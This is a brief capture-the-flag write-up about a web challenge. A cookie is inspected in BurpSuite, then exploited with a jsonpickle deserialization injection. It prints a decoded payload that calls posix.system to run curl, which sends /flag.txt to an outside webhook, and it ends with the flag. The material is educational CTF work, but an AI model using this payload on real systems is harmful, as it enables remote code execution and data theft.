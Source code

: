 # Another one pickles the dust writeup

Well, our first purpose is to find out why we are logging in as a guest, so let's check the cookies values in BurpSuite after loading the 
page:

![who(0)](https://user-images.githubusercontent.com/57829161/78892298-d2844b80-7a71-11ea-8017-689109b63f6e.png)

![who(1)](https://user-images.githubusercontent.com/57829161/78892307-d57f3c00-7a71-11ea-97ab-b548d37770e4.png)

![who(2)](https://user-images.githubusercontent.com/57829161/78892315-d7e19600-7a71-11ea-9add-c673bc5eb5ff.png)

Now all that we need to do is to perform the jsonpickle injection into the py/object parameter:
(check the ```get_payload.py``` script - the idea is to execute the shell on the server, read the ```flag.txt``` file and send 
it to our controlled webhook):

![who(3)](https://user-images.githubusercontent.com/57829161/78892319-dadc8680-7a71-11ea-83ee-ca199c043e8f.png)

the decoded payload looks like:
```
{"py/reduce": [{"py/function": "posix.system"}, {"py/tuple": ["curl -d $(cat /flag.txt) https://webhook.site/cf4e76ba-ad0b-4c72-a914-ffbd76c67f16"]}]}
```

![who(flag)](https://user-images.githubusercontent.com/57829161/78892324-dca64a00-7a71-11ea-825b-4b4ea29c3be4.png)

Flag: `SPR{Y0U_JUST_H4CK3D_JSONPICKLE}`
